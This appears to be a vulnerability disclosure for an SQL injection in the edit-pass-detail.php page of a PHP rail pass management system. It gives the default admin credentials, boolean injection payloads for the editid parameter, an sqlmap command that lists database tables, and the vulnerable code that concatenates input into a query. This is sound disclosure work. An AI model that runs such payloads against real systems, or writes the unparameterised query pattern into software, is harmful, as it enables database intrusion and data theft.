



# [Rail Pass Management System-SQL Injection-edit-pass-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/edit-pass-detail.php?editid=1`    

**[Vulnerability Location]:** rpms/admin/edit-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `editid` parameter, the page displays as follows:

   

   

2. When you enter `1%20and%201=2` in the `editid` parameter, the page displays as follows:

   

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-pass-detail.php?editid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   

**[code analysis]:**

rpms/admin/edit-pass-detail.php

```php
$eid=$_GET['editid'];
$sql="SELECT * from  tblpass where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?> 
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.